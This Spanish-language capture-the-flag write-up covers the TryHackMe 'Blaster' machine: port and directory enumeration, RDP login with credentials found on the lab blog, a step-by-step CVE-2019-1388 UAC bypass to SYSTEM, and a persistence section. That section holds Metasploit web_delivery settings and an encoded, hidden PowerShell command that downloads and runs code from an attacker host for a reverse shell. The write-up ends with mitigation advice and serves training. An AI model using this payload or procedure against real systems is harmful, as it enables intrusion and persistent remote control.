# Blaster - Writeup

| Plataforma | S.O. | Dificultad | IP Objetivo | Temas Clave |
| :--- | :--- | :--- | :--- | :--- |
| TryHackMe | Windows | Fácil | `10.130.176.196` | IIS, Gobuster, RDP, UAC Bypass (CVE-2019-1388), Metasploit |

## Reconocimiento y Enumeración

### Ping y escaneo de puertos

```bash
ping 10.130.176.196
```

No responde al ping, así que se realiza escaneo de puertos:

```bash
nmap -sC -sV -Pn -p- 10.130.176.196
```



Se detecta un servidor web Microsoft IIS httpd 5.0.

### Análisis web y directorios ocultos

Se accede a la web:


Se usa gobuster para buscar directorios:

```bash
gobuster dir -u http://10.130.176.196 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



Se encuentra el directorio 'retro':


En el blog, el usuario es 'wade'. El avatar es la contraseña:


El avatar es 'parzival':


## Explotación

### Acceso por RDP

El puerto 3389 está abierto. Se prueba acceso con:

**Usuario:** wade

**Contraseña:** parzival

```bash
xfreerdp /u:wade /p:parzival /v:10.130.176.196
```

Ahora tenemos acceso al escritorio remoto de la maquina objetivo.



## Post-Explotación y Escalada de Privilegios

Vemos un ejecutable en el escritorio llamado 'hhupd.exe'
Buscando informacion en google vemos un CVE relacionado con ese ejecutable, el CVE-2019–1388 Windows Privilege Escalation Through UAC. Y encontramos una guia paso a paso para reproducirlo en la maquina objetivo.


El primer paso es abrir el ejecutable 'hhupd.exe'
Aqui habra que darle a 'show more details'


Ahora habra que darle a ' show information about the publisher's certificate'



Ahora haremos click en  'issued by'  y luego en OK



Se nos abrira una ventana del navegador, iremos a la tuerca, luego a 'File' y luego a 'save as'



Nos sale el explorador de archivo y cerramos el mensaje que nos sale.



ahora pegamos en el campo file name lo siguiente: `c:\windows\system32\*.*` y le damos a guardar.



Aqui buscaremos el archivo 'cmd.exe' y le haremos click derecho y open.

Ahora hacemos whoami y saldra que somos SYSTEM.



## Persistencia

Ahora toca conseguir persistencia para no tener que repetir todo el proceso cada vez que queramos acceder a la máquina.

El primer paso es abrir metasploit y usar multi/script/web_delivery. Este módulo nos permite generar un payload que podemos ejecutar en la máquina objetivo para obtener una conexión reversa a nuestro equipo.

```bash
use multi/script/web_delivery
set LHOST 192.168.151.119
set LPORT 4444
set TARGET 2
run
```



Esto nos generará un comando que debemos ejecutar en la máquina objetivo para establecer la conexión reversa. El comando se verá algo así:

```bash
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJAB6ADkAPQBuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAA7AGkAZgAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAFAAcgBvAHgAeQBdADoAOgBHAGUAdABEAGUAZgBhAHUAdAB0AFAAcgBvAHgAeQAoACkALgBhAGQAZAByAGUAcwBzACAALQBuAGUAIAAkAG4AdQBsAGwAKQB7ACQAegA5AC4AcAByAG8AeAB5AD0AWwBOAGUAdAAuAFcAZQBiAFIAZQBxAHUAZQBzAHQAXQA6ADoARwBlAHQAUwB5AHMAdABlAG0AVwBlAGIAUAByAG8AeAB5ACgAKQA7ACQAegA5AC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEANQAxAC4AMQAxADkAOgA4ADAAOAAwAC8AcABYAFQAeAB2AHAAbgBpADYAVAAvAEUAeQB5AGkARQBtAGoAZwBkAGcAZABXAGkANwA2ACcAKQApADsASQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEANQAxAC4AMQAxADkAOgA4ADAAOAAwAC8AcABYAFQAeAB2AHAAbgBpADYAVAAnACkAKQA7A
```

Este comando es una cadena codificada en Base64 que, al ejecutarse, establecerá una conexión reversa a nuestro equipo. Para ejecutar este comando, simplemente cópialo y pégalo en la terminal de la máquina objetivo.



## Mitigación y Recomendaciones

1. **Robustez de Credenciales**: Implementar políticas estrictas de complejidad y longitud de contraseñas. Evitar el uso de credenciales basadas en nombres de usuario, avatares o información personal publicada en blogs o redes corporativas.
2. **Parchear UAC Bypass (CVE-2019-1388)**: Asegurar que todos los servidores y clientes Windows cuenten con las actualizaciones acumulativas correspondientes para corregir la escalada de privilegios a través de la interfaz del diálogo UAC (User Account Control).
3. **Seguridad en RDP**: Deshabilitar el acceso RDP directo desde internet. Utilizar túneles VPN y autenticación multifactor (MFA) para conexiones administrativas remotas.
4. **Endurecimiento de Servidores Web (IIS)**: Configurar directivas adecuadas en IIS para deshabilitar el listado de directorios innecesarios y restringir el acceso a paneles o blogs desactualizados.

